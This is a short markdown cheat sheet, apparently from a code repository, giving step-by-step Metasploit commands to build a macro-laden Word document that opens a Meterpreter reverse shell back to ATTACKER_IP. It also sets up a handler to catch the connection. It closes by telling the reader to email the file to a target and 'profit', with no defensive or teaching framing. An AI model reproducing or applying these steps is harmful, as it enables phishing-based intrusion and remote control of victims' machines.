 # MS Word Maliciou Macro Document Creation

### Example tool to create infected documents: 

#### 1) Metasploit

### Usage:

1) Enter metasploit console

        msfconsole

2) Specify the payload to use

        set payload windows/meterpreter/reverse_tcp

3) Use this module to create the malicious .docm file

        use exploit/multi/fileformat/office_word_macro

4) Set our IP address to listen for connections

        set LHOST ATTACKER_IP

5) Set our port to listen for connections

        set LPORT ATTACKER_PORT

6) Check the settings if they are properly configured

        show options

7) Run the module

        exploit

#### The word document with the embedded macro will be stored in:

 - /root/.msf4/local/msf.docm

8) Open another msfconsole session in another terminal and use the multi/handler module to catch incoming connections

        use exploit/multi/handler

9) Set the payload we used to create the file for the handler to recognise it

        set payload windows/meterpreter/reverse_tcp

10) Set connection information

        set LHOST ATTACKER_IP

        set LPORT ATTACKER_PORT

11) Check our settings again for good measure

        show options

12) Run the module

        exploit

### Then, send the malicious document via email (for example) to your target and wait for them to open it. Then profit
